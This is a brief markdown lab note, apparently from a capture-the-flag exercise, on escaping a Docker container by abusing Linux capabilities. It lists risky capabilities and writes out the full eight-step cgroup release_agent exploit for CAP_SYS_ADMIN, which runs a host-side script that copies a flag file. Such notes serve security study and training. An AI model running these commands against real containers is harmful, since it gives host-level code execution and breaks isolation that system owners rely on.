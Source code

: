 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

### 3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
